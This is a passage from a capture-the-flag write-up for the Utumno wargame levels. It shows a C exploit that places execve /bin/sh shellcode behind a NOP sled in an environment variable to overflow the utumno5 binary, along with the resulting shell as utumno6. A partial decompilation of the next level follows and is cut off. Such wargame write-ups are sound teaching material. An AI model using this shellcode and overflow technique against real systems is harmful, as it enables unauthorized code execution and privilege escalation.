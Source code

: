 ### Exploit:
```c
#include <unistd.h>

int main() {
        char *argv[] = {NULL};
        char *envp[] = {"",
                        "",
                        "",
                        "",
                        "",
                        "",
                        "",
                        "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x66\x68\x2d\x70\x89\xe1\x50\x51\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80",
                        "AAAABBBBCCCCDDDD\x9d\xdf\xff\xff",
                        NULL};

        execve("/utumno/utumno5", argv, envp);
}
```

```bash
utumno5@utumno:/tmp/tasks/utumno5$ ./run
Here we go - AAAABBBBCCCCDDDD...
$ whoami
utumno6
```

---
---
## Utumno6 Solution
**Username:** utumno6\
**Password:** [REDACTED]

### Disassembly:
```c
int main(int argc, char** argv)
{
    if (argc <= 2)
    {
        puts("Missing args");
        exit(1);
        /* no return */
    }
    
    char* eax = malloc(0x20);
    
    if (!eax)
    {
        puts("Sorry, ran out of memory :-(");
        exit(1);
        /* no return */
    }
    
    uint32_t eax_5 = strtoul(argv[2], nullptr, 0x10);
    uint32_t eax_9 = strtoul(argv[1], nullptr, 0xa);
    
    if (eax_9 > 0xa)
    {
        puts("Illegal position in table, quitt…");
        exit(1);
```